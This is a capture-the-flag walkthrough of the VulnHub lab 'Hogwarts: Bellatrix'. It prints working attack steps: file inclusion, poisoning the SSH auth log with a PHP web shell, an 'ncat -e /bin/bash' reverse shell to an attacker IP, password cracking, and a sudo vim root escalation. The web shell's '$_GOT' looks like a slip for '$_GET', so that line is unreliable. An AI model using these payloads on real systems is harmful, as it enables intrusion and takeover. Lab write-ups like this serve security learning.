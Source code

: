 # Hogwarts: Bellatrix

[Machine](https://www.vulnhub.com/entry/hogwarts-bellatrix,609/ "https://www.vulnhub.com/entry/hogwarts-bellatrix,609/")

## Reconnaissance

### nmap

* ssh
* http

#### http

On the start page, you can see Lestrange gif and some hint with .php on the end. Also, see the source code and understand, that here you have already all what you need.
```php
$include($file); // will include arbitrary file if a user which is running web-service has access to it.
```

## Thread modeling

So, we have a Local File Inclusion(The server loads a local file). The next step will be step with ssh.

## Vulnerability analysis

### LFI

From ikilledsiriusblack strings you really need is `ikilledsiriusblack.php` once. LFI will be next: `http://192.168.88.226/ikilledsiriusblack.php?file=/etc/passwd`.
Okay, we got LFI, but we can't read all files...I got `/etc/passwd`, took a 2 users `bellatrix` and `lestrange`. Then I was stuck. 
I tried to brute-force ssh login, but there is nothing to do with brute-force, as the hint from the machine page said. Next, I searched for ssh logs directory and it is `/var/log/auth.log`. But what did it give you? You can try to login with a non-existed user and it will be shown in `/var/log/auth.log`. So, your username is PHP-code:
```php
<?php system($_GOT['cmd']); ?>
```

### ssh

Log in:
```bash
ssh '<?php system($_GOT['cmd']); ?>'@192.168.88.226
```

Trigger LFI with `http://192.168.88.226/ikilledsiriusblack.php?file=/var/log/auth.log&cmd=whoami`. Then go to the source page and you will see:
```
Feb  2 13:46:26 bellatrix sshd[3788]: pam_unix(sshd:auth): check pass; user unknown
Feb  2 13:46:28 bellatrix sshd[3788]: Failed password for invalid user www-data
```

## Exploitation

`nc -lnvp 4444 ` and trigger LFI with replacement `whoami` as `ncat -e /bin/bash 192.168.88.225 4444`. Got www-data.

## Post exploitation

### Privilege escalation

#### lestrange

In `/var/www/html` you can see `c2VjcmV0cw==` folder, in which `.secret.dic` and `Swordofgryffindor`. Take it with `wget http://192.168.88.226/c2VjcmV0cw==/.secret.dic`. Then within them, you can see the dictionary and hash of lestrange password. Use John the Reaper: `john -w=.secret.dic Swordofgryffindor`. It will give a password `ihateharrypotter`. Log in through ssh.

#### root

Root is easy. `sudo -l` will show the (NOPASSWD) on `/usr/bin/vim`. In vim, you can execute the bash command by pressing `:` and next `!/bin/bash` or `sudo /usr/bin/vim -c ':!/bin/bash'`. Got root.

## Sources

[ssh logs](https://superuser.com/questions/1224688/where-to-find-ssh-login-log-files-on-centos "https://superuser.com/questions/1224688/where-to-find-ssh-login-log-files-on-centos")

[file inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion "https://book.hacktricks.xyz/pentesting-web/file-inclusion")

[php include();](https://www.php.net/manual/en/function.include.php "https://www.php.net/manual/en/function.include.php")

